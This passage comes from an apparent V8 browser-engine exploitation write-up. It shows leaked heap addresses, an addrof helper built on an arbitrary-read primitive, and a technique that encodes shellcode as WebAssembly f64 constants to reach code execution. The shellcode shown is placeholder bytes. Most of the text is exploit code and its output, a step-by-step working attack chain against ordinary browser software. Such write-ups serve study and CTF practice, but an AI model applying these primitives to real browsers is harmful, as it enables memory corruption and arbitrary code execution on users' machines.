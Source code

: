 checking if it works:
```
[+] V8 base: 0x23500000000
[+] address of type_confused_array: 0x4a1c4
[+] address of obj_array[0]: 0x4a1c4
```

We can wrap this into a helper function:
```javascript
function addrof(obj) {
    obj_array[0] = obj;
    return ftoi(arb_read(obj_array_addr)) & 0xffffffffn;
}
```

### Code Exec 
Now that we have an arb read and write it is a good time to figure out how to get code exec. Looking back at the working exploit provided you can convert js -> webassembly text -> wasm using the following method:
```javascript
let fi_buf = new ArrayBuffer(8); // shared buffer
let f_buf = new Float64Array(fi_buf); // buffer for float
let i_buf = new BigUint64Array(fi_buf); // buffer for bigint

function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

let shellcode = [
    0x4141414141414141n,
    0x4242424242424242n,
]

for (let i = 0; i < shellcode.length; i++)
    console.log('f64.const ' + itof(shellcode[i]));
```

convert to f64
```
.\d8.exe shellcode.js
f64.const 2261634.5098039214
f64.const 156842099844.51764
```

Write as webassembly text:
```wat
(module
    (func (export "main")
        f64.const 2261634.5098039214
        f64.const 156842099844.51764

        return
    )
)
```
